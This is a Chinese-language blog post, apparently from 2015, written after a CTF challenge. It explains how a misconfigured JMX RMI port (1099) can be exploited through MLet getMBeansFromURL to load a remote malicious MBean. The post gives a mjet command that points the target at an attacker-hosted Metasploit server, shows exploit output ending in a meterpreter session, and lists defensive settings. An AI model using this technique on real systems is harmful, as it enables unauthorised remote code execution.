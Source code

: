 ```yaml
---
layout: post
title: "JMX RMI Exploit"
date: 2015-04-15 18:55:39
---
```


# JMX RMI Exploit

原文地址： [Exploiting JMX RMI](http://www.accuvant.com/blog/exploiting-jmx-rmi)

### 利用方法


写这篇文章的起因是因为ALICTF决赛的其中一道题，是关于@cnbird2008出的一道linux渗透的题目，里面涉及了一台机器开启了1099端口。赛后很多同学说对这个利用方式感兴趣，所以整理出来，让小伙伴们以后方便查阅。

1099端口原本对应的服务为[Apache ActiveMQ](http://activemq.apache.org/jmx.html)对JMX的支持，但是由于配置不当，导致攻击者可以通过此端口利用javax.management.loading.MLet的getMBeansFromURL方法来加载一个远端恶意的MBean，即可以远程执行任意代码。当然，这个JMX的利用方法不仅仅在ActiveMQ上能够利用，在很多服务支持JMX的情况下其实也能够适用。

原文中详细的阐述了这个漏洞的原理分析和Exploit的编写，这里就不再赘述了。如何利用这个漏洞直接调用执行metasploit中的meterpreter payload呢，国外已经有人写了个JMX的利用工具叫mjet，在github上能够搜索到，[传送门](https://github.com/mogwaisec/mjet)。利用方法说的很详细，先是通过公网一台机器搭建好metasploit，启动一个java_mlet_server模块，能够让目标机器去加载恶意代码。然后使用mjet.jar这个工具来Exploit，具体的命令如下：

	java -jar mjet.jar -t target_ip -p 1099 -u http://attacker_ip:8080/mlet/
	
attacker_ip即自己公网装有metasploit的机器IP。执行后如果成功Exploit，会返回以下信息。

	---------------------------------------------------
	MJET - Mogwai Security JMX Exploitation Toolkit 0.1
	---------------------------------------------------
	
	[+] Connecting to JMX URL: service:jmx:rmi:///jndi/rmi://192.168.178.200:1616/jmxrmi ...
	[+] Connected: rmi://192.168.178.164  5
	[+] Trying to create MLet bean...
	[+] Loaded javax.management.loading.MLet
	[+] Loading malicious MBean from http://192.168.178.1:8080/mlet/
	[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
	[+] Loaded class: metasploit.Metasploit
	[+] Loaded MBean Server ID: ptIIirfM:name=BlPwaoHu,id=oWTqfkbE
	[+] Invoking: metasploit.Metasploit.run()
	[+] Done
	
中间执行的过程一目了然。然后在java_mlet_server端就反弹了一个meterpreter session在后端了。

### 防御方案
* 配置中启用SSL客户端证书身份认证。
* 启用密码方式的授权认证并使用SSL传输。
* 对JMX RMI的端口做iptables。

### 参考
* http://docs.oracle.com/javase/6/docs/technotes/guides/management/agent.html
* http://drops.wooyun.org/papers/178
